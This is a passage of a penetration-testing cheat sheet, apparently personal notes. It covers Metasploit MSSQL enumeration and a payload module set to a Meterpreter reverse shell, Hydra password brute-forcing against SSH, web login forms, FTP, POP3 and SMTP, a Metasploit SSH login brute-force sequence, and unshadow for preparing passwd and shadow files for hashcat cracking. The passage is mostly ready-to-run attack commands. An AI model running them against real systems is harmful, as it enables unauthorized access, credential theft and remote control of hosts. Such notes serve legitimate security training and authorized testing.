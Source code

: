 ```bash
msf > use auxiliary/admin/mssql/mssql_enum
```

Metasploit MSSQL Shell
------------------------------------------------------------

```bash
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

Gaining Access
------------------------------------------------------------

- hydra: bruteforce tool

    ```bash
    hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.101 -t 4 -v -f
    #-l is the user we want to attack, -P password file list, -t threads, -v verbose
    #it's better to intercept the login page with burp, check to see the correct username&password syntax and copy the exact failed message
    -#f   exit when a login/pass pair is found
    hydra -l hasamba -P ~/Desktop/test_passwords.txt 10.0.0.210 -s 8085 http-post-form "/login/:username=^USER^&password=^PASS^:F=Authentication failed" -VVV -t 6 -
    hydra OPT #will show us optional moduls for http and such
    hydra -U MODULE_NAME #will show module examples

    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V #Hydra FTP brute force
    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V #Hydra POP3 brute force
    hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V #Hydra SMTP brute force

    hydra -l username -P password-list <URL_TO_SERVER> http-post-form "<PATH-TO_LOGIN>:POST_REQUEST_FOR_LOGIN:FAILED_RESPONSE_IDENTIFIER"
    ```

- metasploit - can also bruteforce

    ```bash
    use auxialary/scanner/ssh/ssh_login
    options
    set username root
    set pass_file /usr/share...
    set rhosts
    set threads 10
    set verbose true
    run
    ```

- unshadow (kali) - combine both files and will insert the hashed passwords to the passwd file, so we can use this file with hashcat to maybe decrypt the password.

    ```bash
    unshadow PASSSWD_FILE SHADOW_FILE
    ```

- [hashcat](https://www.notion.so/Hashcat-b885f8ac8c0f450986d62c0d29f44cb9) - crack passwords hashes ([Cheat Sheet](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a44ab748-a9a9-437e-a4a1-2fa1cc6c03a8/HashcatCheatSheet.v2018.1b.pdf?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201122%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201122T190235Z&X-Amz-Expires=86400&X-Amz-Signature=03753b73d70b97901e6a764011ae5ffdbffc2d9dcbd00673f79b64097b1299d9&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22HashcatCheatSheet.v2018.1b.pdf%22))
